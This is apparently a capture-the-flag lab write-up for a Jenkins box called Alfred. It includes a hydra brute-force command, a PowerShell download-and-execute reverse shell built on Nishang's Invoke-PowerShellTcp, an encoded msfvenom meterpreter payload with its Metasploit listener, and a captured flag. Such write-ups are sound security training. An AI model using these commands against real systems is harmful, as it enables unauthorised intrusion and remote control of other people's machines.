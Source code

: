 - 3

**What is the username and password for the log in panel(in the format username:password)**

http://10.10.112.98:8080/login

Some google we find the default login is admin/password but that password doesnt work. Need to find the pass

Intercepting the login request in burpsuite proxy we can see this is a POST request to /j_acegi_security_check

- Lets try to use hydra to find a login ``hydra -t 16 -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 10.10.21.129 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"``

![](/assets/alfred01.png)

**Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port** You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server**

**What is the user.txt flag?**

1. ``wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`` 
2. ``python3 -m http.server``
3. paste code into Jenkins Project Configure``powershell iex (New-Object Net.WebClient).DownloadString('http://10.x.x.x:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.x.x.x -Port 6667``

PS C:\users\bruce\Desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0

* * *

## Task 2 - Switching Shells

1. Create payload ``msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.x.x.x LPORT=6666 -f exe -o shell.exe``
2. Input into Jenkins after starting a new project with copied settings 
3.
to download payload to target: ``powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.x.x.x:8000/shell.exe','shell.exe')"``
4. Setup listener in ``msfconsole`` on kali: ``use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.x.x.x set LPORT 6666 run``
5. Traverse to new directory with shell.exe and input into first Powershell to start meterpreter reverse shell: ``Start-Process "shell.exe"``
